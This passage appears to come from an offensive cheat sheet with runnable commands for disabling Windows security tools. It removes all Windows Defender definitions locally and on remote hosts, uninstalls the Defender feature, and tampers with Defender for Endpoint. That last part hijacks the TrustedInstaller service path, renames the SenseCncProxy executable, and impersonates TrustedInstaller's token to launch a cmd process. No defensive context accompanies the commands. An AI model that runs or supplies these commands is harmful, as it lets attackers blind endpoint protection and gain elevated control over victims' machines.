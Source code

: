 ### 2.2 - Remove Definitions

#### 2.2.1 - Command Prompt

```
C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -all

C:\> winrs.exe -remote:<IP> "\"C:\Program Files\Windows Defender\MpCmdRun.exe\" -RemoveDefinitions -all"
```

#### 2.2.2 - PowerShell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -all }
```

### 2.3 - Uninstall

#### 2.3.1 - Command Prompt

```
C:\> Dism.exe /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
```

#### 2.3.2 - PowerShell

```
PS C:\> Uninstall-WindowsFeature -Name Windows-Defender

PS C:\> Remove-WindowsFeature -Name Windows-Defender -Restart
```

## 03 - Disable Advanced Threat Protection

### 3.1 - Disable Endpoint

#### 3.1.1 - Command Prompt

```
C:\> sc.exe config TrustedInstaller binpath="cmd /c sc stop diagtrack & sc config diagtrack binpath='useless value'" && sc start TrustedInstaller

C:\> whoami.exe /groups | findstr.exe Trusted

C:\> ren.exe "C:\Program Files\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" SenseCncProxi.exe
```

#### 3.1.2 - PowerShell

```powershell
PS C:\> Set-NtTokenPrivilege SeDebugPrivilege
Start-Service TrustedInstaller
$process = Get-NtProcess -Name TrustedInstaller.exe
$token = $process.OpenToken()
$token.Groups | Where-Object ($_.$id.Name -match "TrustedInstaller")
$proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $process
```
